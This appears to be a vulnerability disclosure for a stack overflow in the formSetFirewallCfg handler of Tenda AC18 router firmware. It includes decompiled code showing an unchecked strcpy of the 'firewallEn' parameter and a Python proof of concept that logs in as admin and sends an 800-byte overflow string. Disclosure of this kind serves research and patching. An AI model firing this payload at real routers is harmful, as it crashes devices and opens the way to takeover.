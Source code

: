 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)




### * Vulnerability Detail

In function formSetFirewallCfg, the content obtained by the program from the parameter "firewallEn" is passed to local_20, 
and then the local_20 is directly copied into the local_38 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetFirewallCfg(undefined4 param_1)
{
  ...
  local_20 = (char *)FUN_0002ba8c(param_1,"firewallEn",&DAT_000f2e68);
  __src = (char *)strlen(local_20);
  if ((char *)0x3 < __src) {
    strcpy((char *)&local_38,local_20); // here is overflow
    GetValue("security.ddos.map",acStack120);
    GetValue("firewall.pingwan",&local_80);
    sprintf(acStack256,"%c,1500;%c,1500;%c,1500",local_38 & 0xff,local_38 >> 0x10 & 0xff,
            local_38 >> 8 & 0xff);
    SetValue("security.ddos.map",acStack256);
    SetValue("firewall.pingwan",(int)&local_38 + 3);
    memset(acStack256,(int)&DAT_000f2e9c,0x40);
 ...
}
```

### * POC
```python
import requests


cmd  = b'firewallEn=' + b'A' * 800



url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/SetFirewallCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
